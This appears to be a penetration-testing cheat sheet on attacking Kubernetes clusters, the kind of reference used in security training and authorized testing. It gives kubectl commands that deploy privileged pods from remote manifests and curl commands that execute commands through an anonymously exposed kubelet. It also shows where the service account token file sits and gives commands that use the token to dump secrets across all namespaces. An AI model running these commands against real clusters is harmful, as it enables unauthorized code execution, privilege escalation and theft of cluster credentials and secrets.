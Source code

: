 # Kubernetes

> Kubernetes, often abbreviated as K8s, is an open-source container orchestration platform designed to automate the deployment, scaling, and management of containerized applications

## Summary

- [Tools](#tools)
- [Exploits](#exploits)
    - [Accessible kubelet on 10250/TCP](#accessible-kubelet-on-10250tcp)
    - [Obtaining Service Account Token](#obtaining-service-account-token)
- [References](#references)

## Tools

* [BishopFox/badpods](https://github.com/BishopFox/badpods) - A collection of manifests that will create pods with elevated privileges.
    ```ps1
    kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/everything-allowed/pod/everything-allowed-exec-pod.yaml
    kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/priv-and-hostpid/pod/priv-and-hostpid-exec-pod.yaml
    kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/priv/pod/priv-exec-pod.yaml
    kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostpath/pod/hostpath-exec-pod.yaml
    kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostpid/pod/hostpid-exec-pod.yaml
    kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostnetwork/pod/hostnetwork-exec-pod.yaml
    kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostipc/pod/hostipc-exec-pod.yaml
    kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/nothing-allowed/pod/nothing-allowed-exec-pod.yaml
    ```
* [serain/kubelet-anon-rce](https://github.com/serain/kubelet-anon-rce) - Executes commands in a container on a kubelet endpoint that allows anonymous authentication
* [DataDog/KubeHound](https://github.com/DataDog/KubeHound) - Kubernetes Attack Graph
    ```ps1
    # Critical paths enumeration
    kh.containers().criticalPaths().count()
    kh.containers().dedup().by("name").criticalPaths().count()
    kh.endpoints(EndpointExposure.ClusterIP).criticalPaths().count()
    kh.endpoints(EndpointExposure.NodeIP).criticalPaths().count()
    kh.endpoints(EndpointExposure.External).criticalPaths().count()
    kh.services().criticalPaths().count()

    # DNS services and port
    kh.endpoints(EndpointExposure.External).criticalPaths().limit(local,1)
    .dedup().valueMap("serviceDns","port")
    .group().by("serviceDns").by("port")
    ```

## Exploits

### Accessible kubelet on 10250/TCP

Requirements:
* `--anonymous-auth`: Enables anonymous requests to the Kubelet server

* Getting pods: `curl -ks https://worker:10250/pods`
* Run commands: `curl -Gks https://worker:10250/exec/{namespace}/{pod}/{container} -d 'input=1' -d 'output=1' -d'tty=1' -d 'command=ls' -d 'command=/'`


### Obtaining Service Account Token

Token is stored at `/var/run/secrets/kubernetes.io/serviceaccount/token`

Use the service account token:
* on `kube-apiserver` API: `curl -ks -H "Authorization: Bearer <TOKEN>" https://master:6443/api/v1/namespaces/{namespace}/secrets`
* with kubectl: ` kubectl --insecure-skip-tls-verify=true --server="https://master:6443" --token="<TOKEN>" get secrets --all-namespaces -o json`


## References

* [Attacking Kubernetes through Kubelet - Withsecure Labs- 11 January, 2019](https://labs.withsecure.com/publications/attacking-kubernetes-through-kubelet)
* [kubehound - Attack Reference](https://kubehound.io/reference/attacks/)
* [KubeHound: Identifying attack paths in Kubernetes clusters - Datadog - October 2, 2023](https://securitylabs.datadoghq.com/articles/kubehound-identify-kubernetes-attack-paths/)